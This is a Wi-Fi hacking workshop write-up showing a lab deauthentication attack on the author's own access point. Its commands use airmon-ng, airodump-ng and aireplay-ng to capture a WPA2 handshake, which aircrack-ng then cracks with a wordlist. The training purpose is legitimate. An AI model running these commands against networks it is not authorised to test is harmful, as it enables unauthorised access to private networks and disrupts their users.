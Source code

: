 # Wi\-Fi Hacking Workshop

Summary: I will be gathering the Access Point MAC address and MAC address of my phone. I will then 
send 10 deauthentication packets which will cause my phone to disconnect and reauthenticate to the Access Point. We then capture the authentication prcoess save it locally and crack the password

![](img/WifiHackingWorkshop0.png)

### Disclaimer

Do not hack into any networks without prior authorisation

### Wireless AP Setup

Configure the Wireless Access point

![](img/WifiHackingWorkshop1.png)

### Adapter Setup

if using the TPLink TL-WN823N follow this adapter setup otherwise you can skip this section

link: [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

enter these commands in the terminal:

 * `sudo apt-get update  `

 * `sudo apt-get install linux\-headers\-$\(uname \-r\)  `

 * `git clone [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)  `

 * `cd rtl8812au  `

 * `make `

 * `sudo insmod 8812au.ko `

 * `sudo cp 8812au.ko /lib/modules/$\(uname  r\)/kernel/drivers/net/wireless `

 * `sudo depmod `

 * `sudo apt-get install build-essential dkms `

 * `sudo make dkms_install `

 * `echo 8192eu | sudo tee -a /etc/modules `

### Adapter Setup

Add the Wireless adapter to VirtualBox

![](img/WifiHackingWorkshop2.png)

### Adapter Setup

 * `sudo airmon-ng check kill ` checks for conflicting processes and kills them. This however will result in loss of internet for the VM, can be solved by restarting.

 * `iwconfig   `shows the adapter names. In my case wlan0 is the wireless adapter.

 * `sudo airmon-ng start wlan 0 ` - Starts the wireless adapter in monitor mode.

![](img/WifiHackingWorkshop3.png)

### Discovering BSSID

 * `sudo airodump-ng -c 11 wlan0 ` - discovers access points on channel 11 using wlan0

BSSID is the access point MAC address of the router. In this case we are looking at the BSSID for CyberSec

![](img/WifiHackingWorkshop4.png)



### Discovering devices

The MAC address of 0C:8D:CA:A6:94:8D is my phone and that is where the deauthentication packets are getting sent.

![](img/WifiHackingWorkshop5.png)

### De-Auth Attack

 * `sudo airodump-ng -c 11 --bssid B0-95-75-5C-3B-94 -w psk wlan0 ` - this captures packets for the CyberSec accesspoint and saves it locally to a file named psk

 * `sudo aireplay-ng -0 10 -a B0:95:75:5C:3B:94 -c 0C:8D:CA:A6:93:8D wlan0 ` - This sends 10 deauthentication packets to my phone which will disconnect from the Access Point and automatically reconnect. The reauthenication process for the wpa2 handshake is captured and saved locally

![](img/WifiHackingWorkshop6.png)

### Cracking Password
Using the previous wpa2 handshake capture we can brute force the password using a passwordlist. I created one called passwordlist with the password of Password1 in it for lab demostration purpose. But Kali has default wordlists in the /usr/share/wordlists directory

 * `aircrack-ng -w passwordlist.txt psk-02.cap `- This is what is used to crack the password.

![](img/WifiHackingWorkshop7.png)

